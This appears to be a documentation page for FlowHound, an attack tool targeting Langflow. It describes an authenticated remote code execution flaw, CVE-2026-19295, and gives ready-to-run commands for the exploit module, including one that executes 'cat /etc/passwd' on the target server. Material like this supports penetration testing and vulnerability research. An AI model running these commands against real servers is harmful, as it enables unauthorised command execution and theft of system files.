

repository: rmhowe425/FlowHound · page: cves/cve_2026_19295/index.html · generator: mkdocs

# CVE Description
**CVE Description:** Authenticated remote code execution vulnerability that allows an attacker to execute arbitrary code under the context of the running Langflow process by saving a flow with a crafted type field value and triggering a build of a wrapper flow that references it. This allowed privilege escalation from "authenticated flow user" to arbitrary OS-level command execution under the server process identity, bypassing the LANGFLOW_ALLOW_CUSTOM_COMPONENTS=false policy control.

**Impacted Versions:** 1.0.0 through 1.11.1

# Exploit Module

## Default Mode
```bash
flowhound attack --url http://192.168.1.30:7860 --username root --password root --cve CVE-2026-19295
```

![image](../images/cve/bc54598f-8964-45f4-b624-a91b0cebc1de.png)

## Execute Bash Command
```bash
flowhound attack --url http://192.168.1.30:7860 --username root --password root --cve CVE-2026-19295 --command "cat /etc/passwd"
```

![image](../images/cve/1e913af9-f455-49dd-bb66-4fa6951c9e00.png)
